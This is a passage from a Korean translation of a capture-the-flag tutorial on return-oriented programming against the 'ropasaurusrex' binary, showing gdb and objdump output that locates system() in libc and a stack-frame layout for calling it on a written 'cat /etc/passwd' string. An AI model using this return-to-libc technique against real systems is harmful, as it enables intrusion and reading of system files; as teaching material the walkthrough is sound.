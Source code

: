 ``` sh
$ gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/s 0x08049530
0x8049530:       "cat /etc/passwd"
```

완벽하다!

### <a id="running-it"></a>실행하기

이제 우린 `cat /etc/passwd`를 메모리에 썼고, `system()`을 호출해서 저 주소를 가리키면 된다. 거의 다 됐다. ASLR이 적용되지 않았다면 쉽다. 실행 파일에는 libc가 링크되어 있다:

``` sh
$ ldd ./ropasaurusrex
        linux-gate.so.1 =>  (0xb7703000)
        libc.so.6 => /lib/i686/cmov/libc.so.6 (0xb75aa000)
        /lib/ld-linux.so.2 (0xb7704000)
```

그리고 `libc.so.6`엔 `system()` 함수가 포함되어 있다:

``` sh
$ objdump -T /lib/i686/cmov/libc.so.6 | grep system
000f5470 g    DF .text  00000042  GLIBC_2.0   svcerr_systemerr
00039450 g    DF .text  0000007d  GLIBC_PRIVATE __libc_system
00039450  w   DF .text  0000007d  GLIBC_2.0   system
```

디버거를 통해 ropasaurusrex에서 로드된 `system()` 주소를 알아낼 수 있다:

``` sh
$ gdb --quiet ./ropasaurusrex core
[...]
Program terminated with signal 11, Segmentation fault.
#0  0x43434343 in ?? ()
(gdb) x/x system
0xb7ec2450 <system>:    0x890cec83
```

`system()`은 인자를 하나만 받으므로, 스택 프레임을 만드는 건 쉬운 편이다:

``` plain
+----------------------+
|         ...          | - 상관 없다, 다른 함수들이 여기 올 것이다.
+----------------------+

+----------------------+ <-- system()의 스택 프레임 시작
|      void *arg       | - buffer, 0x08049530
+----------------------+
|   [return address]   | - 'system'이 반환되는 주소
+----------------------+
|         ...          | - 상관 없다, system() 지역 변수를 위해 사용할 것이다.
+----------------------+
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[^1]: 링크가 [바뀌었다](https://wiki.skullsecurity.org/Assembly).
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump